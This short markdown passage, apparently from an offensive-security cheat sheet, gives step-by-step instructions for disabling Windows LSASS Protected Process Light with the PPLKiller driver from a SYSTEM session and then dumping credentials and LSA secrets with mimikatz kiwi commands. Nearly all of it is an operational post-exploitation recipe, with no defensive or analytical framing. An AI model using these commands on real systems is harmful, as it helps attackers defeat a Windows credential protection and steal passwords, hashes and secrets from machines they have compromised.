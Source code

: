 ### Disable PPL using PPLKiller

- Make sure the session you are running with has SYSTEM privleges.
- We need to upload the driver to the path: `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.
- Then we will disable PPL: `.\PPLKiller.exe /disablePPL <LSASS PID>`
- Now we can use mimikatz to dump the lsass process: `load kiwi` - `creds_all` - `lsa_dump_secrets`.
